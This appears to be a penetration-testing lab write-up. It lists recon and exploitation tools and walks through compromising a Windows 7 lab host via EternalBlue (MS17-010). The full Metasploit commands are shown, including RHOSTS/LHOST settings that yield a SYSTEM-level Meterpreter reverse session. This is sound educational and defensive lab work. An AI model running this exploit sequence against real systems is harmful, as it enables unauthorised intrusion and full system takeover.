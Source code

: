 
## Tools
- Nmap (port & service discovery)  
- Metasploit Framework (exploit modules)  
- Nikto (web enumeration)  
- Gobuster (directory brute-forcing)  
- netdiscover (ARP host discovery)  
- msfconsole / meterpreter (post-exploitation)  
- Common Linux utilities (nc, curl, wget)

---

## Methodology
1. **Reconnaissance & discovery** — `netdiscover`, `nmap`  
2. **Enumeration** — service banners, web scanning (`nikto`), directory brute force (`gobuster`)  
3. **Exploitation** — Metasploit modules (EternalBlue/MS17-010, Samba attempts)  
4. **Post-exploitation** — `meterpreter` session, `sysinfo`, `whoami`  
5. **Reporting & remediation** — document findings and recommended fixes

---

## Target 1 — Windows 7 (192.168.2.120)

### Summary
- **Open ports:** 135 (msrpc), 139 (netbios-ssn), 445 (microsoft-ds)  
- **Vulnerability found:** MS17-010 (EternalBlue)  
- **Exploit used:** `exploit/windows/smb/ms17_010_eternalblue` (Metasploit)  
- **Result:** Meterpreter session obtained as `NT AUTHORITY\SYSTEM`

### Key commands (examples)
```bash
# discovery
netdiscover -r 192.168.2.0/24

# nmap service scan
nmap -sV 192.168.2.120

# launch Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.2.120
set LHOST 192.168.2.128
run

# after session
sessions -i <id>
sysinfo
getuid
```
